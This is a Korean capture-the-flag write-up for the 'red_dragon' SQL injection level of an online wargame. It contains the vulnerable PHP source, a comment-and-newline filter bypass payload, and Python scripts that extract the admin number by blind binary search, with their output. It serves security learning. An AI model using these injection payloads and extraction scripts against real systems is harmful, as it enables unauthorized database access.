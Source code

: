 # red_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- get 파라미터 `id`와 `no`를 받는다.   
- `id`는 7글자 이하로 받는다.   
- `no`는 변수 `$no`에 각각 숫자라면 그대로를, 숫자가 아니라면 1을 넣는다.
- 정확한 admin의 no를 찾아내면 문제가 해결된다.   

## 3. Solution
조건에 맞추어 적절히 쿼리를 분리시켰다.   
구체적으로 설명하자면, `no<9`가 있다면 `no<`를 `id`로, `9`를 `no`로 분리시킨 것이다.    
위와같이 분리시킨 후 각 파라미터의 조건을 충족시키면 공격쿼리의 완성이다.   

>    분리시킬 수 있었던 방법은 다음과 같다.   
`no<`뒤에 `#`을 붙여줌으로써, 한줄 주석을 진행하고   
`9`앞에 `%0a`를 붙여줌으로써, 개행을 진행하였다.   
결과적으로 한 문자열인 `no<9`가 되는것이다.   

본격적인 공격흐름은 평소와같이 크게 두가지로 나누었다.   
1. no값의 길이 구하기
2. 정확한 no값 구하기    

이전에 두 흐름속 공통적인 부분을 함수로 만들었다.   
정수값을 입력받아 `no<입력값` 진행 후   
응답 페이지 속 "Hello admin"을 기준삼아 참과 거짓을 반환하는 함수이다.   

```python
def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
```   


------
### 1. no값의 길이 구하기   

변수명 | 값
---|---
`id` | '\|\|no<#
`no` | `i`

>    `i`값은 1부터 10씩 곱해간 값(1,10,100,1000)을 넣어주었다.   
    결과적으로 `i`보다 작다면 `i-1`이 길이가 될 것이다.   

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
    
for i in range(1,100):
    print("%d ... " % (10**(i-1)), end="")
    if dist_tf(10**(i-1)):
        no_len = i - 1
        print("O\n")
        print("=======================")
        print("admin no length  |  %d" % (i-1))
        print("=======================\n")
        break
    
    else:
        print("X")
```   

>    결과는 다음과 같다.

```
1 ... X
10 ... X
100 ... X
1000 ... X
10000 ... X
100000 ... X
1000000 ... X
10000000 ... X
100000000 ... X
1000000000 ... O

=======================
admin no length  |  9
=======================
```


------
### 2. no의 정확한 값 찾아내기   

변수명 | 값
---|---
`id` | '\|\|no<#
`no` | `i`

>    `max`와 `min`을 두어, `i`에 그 사잇값을 넣는다.   
    그렇게 `max`와 `min`을 좁혀가다, 두 차가 1이하라면 결과를 반환한다.   
>
>    코드는 다음과 같다.   
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
    
for i in range(1,100):
    print("%d ... " % (10**(i-1)), end="")
    if dist_tf(10**(i-1)):
        no_len = i - 1
        print("O\n")
        print("=======================")
        print("admin no length  |  %d" % (i-1))
        print("=======================\n")
        break
    
    else:
        print("X")
        
max = int('9'*no_len)
min = 10**(no_len-1)

for i in range(1,10000):
    if dist_tf(int((min+max)/2)):
        max = int((min+max)/2)
    else:
        min = int((min+max)/2)
    
    print("[%d] %d ~ %d" % (i, min, max))
    
    if ((max - min) <= 1):
        print("\n==============================")
        print("admin no  |  %d" % (min))
        print("==============================\n")
        break
```

>    결과는 다음과 같다.   

```
1 ... X
10 ... X
100 ... X
1000 ... X
10000 ... X
100000 ... X
1000000 ... X
10000000 ... X
100000000 ... X
1000000000 ... O

=======================
admin no length  |  9
=======================

[1] 549999999 ~ 999999999
[2] 549999999 ~ 774999999
[3] 549999999 ~ 662499999
[4] 549999999 ~ 606249999
[5] 578124999 ~ 606249999
[6] 578124999 ~ 592187499
[7] 585156249 ~ 592187499
[8] 585156249 ~ 588671874
[9] 585156249 ~ 586914061
[10] 586035155 ~ 586914061
[11] 586474608 ~ 586914061
[12] 586474608 ~ 586694334
[13] 586474608 ~ 586584471
[14] 586474608 ~ 586529539
[15] 586474608 ~ 586502073
[16] 586474608 ~ 586488340
[17] 586481474 ~ 586488340
[18] 586481474 ~ 586484907
[19] 586481474 ~ 586483190
[20] 586481474 ~ 586482332
[21] 586481903 ~ 586482332
[22] 586481903 ~ 586482117
[23] 586482010 ~ 586482117
[24] 586482010 ~ 586482063
[25] 586482010 ~ 586482036
[26] 586482010 ~ 586482023
[27] 586482010 ~ 586482016
[28] 586482013 ~ 586482016
[29] 586482014 ~ 586482016
[30] 586482014 ~ 586482015

==============================
admin no  |  586482014
==============================
```

최종적으로 위 값을 `no`로 넣어주면 문제가 해결된다.   

변수명 | 값
---|---
`no` | 586482014